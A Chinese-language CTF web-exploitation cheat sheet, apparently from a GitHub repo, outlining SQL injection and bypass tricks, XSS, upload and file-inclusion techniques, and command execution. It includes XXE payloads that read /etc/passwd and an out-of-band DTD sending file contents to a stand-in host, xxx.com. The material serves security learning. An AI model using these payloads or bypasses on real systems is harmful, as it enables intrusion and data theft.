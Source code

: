 ##

### 一.隐藏信息
1. 源代码隐藏关键信息
2. 请求和响应头隐藏关键信息

### 二.代码审计

1.1php漏洞

1.1.1 序列化与反序列化

（1）序列化

序列化就是把一个对象（非类）存成一个字符串，要用时再反序列释放出它。
注意序列化只会包含对象的变量，不会包含函数。而且序列化对象后面的字符串不会再反序列化时解析（md5扩展长度攻击时可用）

（2）session序列化

（3）序列化漏洞

当序列化字符串中，表示对象属性个数的值大于实际个数时，在反序列化后就会跳过wakeup方法的执行



1.2 md5扩展长度攻击


1.3 本地JS代码审计
### 三.目录扫描
1. 敏感文件扫描
工具：[dirsearch](https://github.com/maurosoria/dirsearch),御剑

2. git泄露
工具：[GitHack](https://github.com/lijiejie/GitHack),

3. vim泄露
.swp文件

~文件

通过
```
vim -r 交换文件还原
```

### 四.sql注入
1. 基于查询类型划分

    1.1. 数字型注入

    1.2. 字符型注入

2. 基于注入类型划分：

    2.1. union注入

    2.2. 报错注入

    2.3. 盲注

        2.3.1. 布尔盲注

        2.3.2. 时间盲注

3. 基于字段划分:

    3.1. get,post参数

    3.2. XFF

    3.3. cookie

    3.4. 基于数据库划分

        3.4.1. mysql

        3.4.2. sqlite

        3.4.3. access

    3.4.绕过方法
        3.4.1. 空格

        3.4.2. 引号

        3.4.3. 注释
         1. 可以用引号连接后面的引号代替注释,and ''=',and '1'='1
         2. %23代替#
         3. --+
         4. /*    */(比较特殊，一般用在双关键字查询)

        3.4.4. 关键字
         1. 外重写,select->seleselectct
         2. 内联注释,\/\*!\*\/

        3.4.5. 常用函数

### 五.XSS
1. 存储型XSS

2. 反射型XSS

3. DOM型XSS

### 六.文件上传和文件解析
文件上传：
- 本地js
- filename文件后缀名
- Content-Type文件类型
- filename+Content-Type绕过
- 文件内容绕过 图片马，声音马

文件解析


### 八.文件包含
题眼：
page=
file=
action=

主要函数：
include()
require()
file_get_contents()

主要姿势：
php://input 标准输入，post中带输入内容
php://filter/read=convert.base64-encode/resource=文件名   标准输出，输出指定文件内容。
../../ 目录穿越


1. 本地文件包含
引用的是服务器上的文件

2. 远程文件包含
引用的是非服务器上的文件，一般默认关闭


### 九.XXE
XML外部实体注入，当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行，内网端口探测、攻击内网网站等目的。


必备条件：
Content-Type: application/xml
post请求中传入poc

一般poc:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo[ 
<!ENTITY f SYSTEM "file:///etc/passwd">
]>
<foo>&f;</foo>
```


远程DTD
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://xxx.com/xxe_file.dtd">
<data>&xxe;<data>
```
http://xxx.com/xxe_file.dtd:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "><!ENTITY xxe SYSTEM 'http://xxx.com/?%file;'>">
%all
```
引用自https://www.freebuf.com/articles/web/177979.html

### 十.命令执行
经常flag就在同级目录下面的文件名或者文件中。可以通过ls,cat等命令查看。
或者利用语言所带的查看文件内容和查看目录下文件查看。


### 十一.远程代码执行


